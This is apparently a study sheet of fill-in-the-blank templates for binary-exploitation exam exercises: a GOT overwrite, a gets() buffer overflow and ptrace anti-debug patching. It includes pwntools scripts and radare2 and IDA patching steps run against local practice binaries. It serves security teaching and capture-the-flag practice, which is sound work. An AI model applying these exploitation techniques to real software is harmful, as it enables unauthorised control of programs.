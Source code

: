 # Templates of solutions of exam exercises

## Write-where-what (GOT exploit)

### Write up
If we execute the program, we discover that the binary provides a simple write-what-where (basically it writes wherever we say so, something we put as input) so it would be a good idea to overwrite some entry in the GOT in order to get control of the program control flow.

A good candidate for the overwrite would be (as usual) the "exit()" function, which absolute address can be found in the terminal using "objdump --dynamic-reloc ./____ and it's: ___________.

We can use radare2, and in particular the command afl to check if there is a function we would like to call to get the flag (which most likely it's never called), in this case it is: ______________. We can in this way also retrieve its address which is ___________-

We can then use pwntools to send these inputs (see script.py).

We simply execute the python script to retrieve the flag which is: ___________________________

### Python script
This could be the script.py mentioned before:
```python
from pwn import *

p = process("./______")

exit_addr = (str(int(0x_______))).encode("ascii")         # ascii-encoded address of the exit() function
useful_function_addr = (str(int(0x_______))).encode("ascii")       # ascii-encoded address of the __________ function

p.sendline(exit_addr)       # send the address of where to writewhere
p.sendline(useful_function_addr)      # send the address of what to writewhere

print(p.recvall())
```
or equivalently, if we want to retrieve all the addresses directly from python:
```python
from pwn import *

context.binary = "./______"
e: ELF = context.binary
p = process()

exit_addr = str(e.got["exit"]).encode("ascii")       # ascii-encoded address of the exit() function
useful_function_addr = str(e.functions["____________"].address).encode("ascii")    # ascii-encoded address of the __________ function

p.sendline(exit_addr)       # send the address of where to writewhere
p.sendline(useful_function_addr)      # send the address of what to writewhere

print(p.recvall())
```


## Buffer overflow (getc/s functions exploit)
### Write-up
We use ida to inspect the binary. We immediately notice that in the function ______________  for handling the user input the "gets()" _______or "getc()"_______  function is used (which we know it doesn't check the input length). 
Moreover, also the content of the buffer isn't checked against anything so we can just fill it with 'A's. In particular, since the target buffer is _________ bytes long, we will have a padding of at least _____ bytes long. (___________watch rdi in cyclic pattern_____________)

Basically, we have a buffer overflow vulnerability, so after overflowing the buffer with the padding we just need to overwrite some stack variables with the correct values. 
The only important thing here is overwriting the variables with the correct value and in the correct order (that's easily checked by looking at the variables positiion in the stack).
Using Ida we can see there are a series of test/jump instructions in the binary so we can just try to change the variables according to the strings the stack variables are compared to.
In particular, these strings are in order = _______, __________ etc....

We can send our input using pwntools (see script.py). 

We execute the python file and retrieve the flag which is: ______________________

### Python script
```python
from pwn import *

p = process("./_________")

padding = b'A' * _______  
p.sendline(padding + b'________' + b'_________' etc)

print(p.recvall())

```


## Patching (ptrace version)
### Write up
We can use Ida to inspect the binary. We notice that in the function ___________ there is a debugger check (ptrace) so we need to avoid it in order to use gdb to retrieve the flag. In order to do so, we can patch the binary with Ida and in particular we change the jne _______some_addr______ jump at 0x__________ with jmp _____some_addr______.

Now, we can use gdb-peda and put a breakpoint in 0x__________ (by doin b*0x__________),  i.e. just before the flag is deleted by the program. So when wwe run the program with gdb-peda we will stop at the breakpoint where the flag is still visible in the stack.

The flag is: _____________


### Patching procedure
Firstly, copy the executable with: cp ./______  __________ _patched.
Then open the __________ _patched with Ida.

> ***PLEASE NOTE***: If not explicitely forbidden in the text of the exercise, if there is a print_flag function we can overwrite another random instruction with 
a simple jmp print_flag_address using radare 2, by:
```python
r2 -w ./name_prog     # open the file in write mode
afl     # to retrieve the address of the function print_flag
s 0x___       # to move to the addr of the function to be overwritten
wa jmp 0x___      # to patch the binary
```
Inside the print_flag there might be some controls done using test/jump instruction, we can simply use ida to patch this instruction and reverse the jumps.





